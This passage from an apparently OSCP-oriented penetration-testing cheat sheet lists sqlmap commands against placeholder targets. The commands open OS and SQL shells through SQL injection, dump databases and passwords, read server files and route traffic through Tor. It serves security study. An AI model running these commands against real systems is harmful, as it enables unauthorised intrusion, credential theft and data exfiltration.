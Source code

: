       - SQL Map OS Shell
            
          `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --osshell  `
      
          `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --os-shell`
            
       - Automated sqlmap scan
       
          `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords  --file-read="/var/www/blah.php"`
             
        - Targeted sqlmap scan
        
           `sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump`
             
         - Scan url for union + error based injection with mysql backend and use a random user agent + database dump  
         
            `sqlmap -o -u http://$ip/index.php --forms --dbs  `
               
            `sqlmap -o -u "http://$ip/form/" --forms`
                
          - Sqlmap check form for injection  
          
             `sqlmap -o -u "http://$ip/vuln-form" --forms -D database-name -T users --dump`
                 
           - Enumerate databases  
           
              `sqlmap --dbms=mysql -u "$URL" --dbs`
                
            - Enumerate tables from a specific database  
                  
              `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables  `
                  
            - Dump table data from a specific database and table  
            
               `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump `
                   
            - Specify parameter to exploit  
             
               `sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2 `
                    
            - Specify parameter to exploit in 'nice' URIs (exploits param1)
             
                `sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs `
                     
            - Get OS shell  
              
                 `sqlmap --dbms=mysql -u "$URL" --os-shell`
                       
            - Get SQL shell  
                       
                 `sqlmap --dbms=mysql -u "$URL" --sql-shell`
                        
             - SQL query  
                
                `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"` 
                         
             - Use Tor Socks5 proxy  
                 
                `sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs`
       
       
-   **NoSQLMap Examples**
       You may encounter NoSQL instances like MongoDB in your OSCP journies (`/cgi-bin/mongo/2.2.3/dbparse.py`).  NoSQLMap can help you to automate NoSQLDatabase enumeration. 
       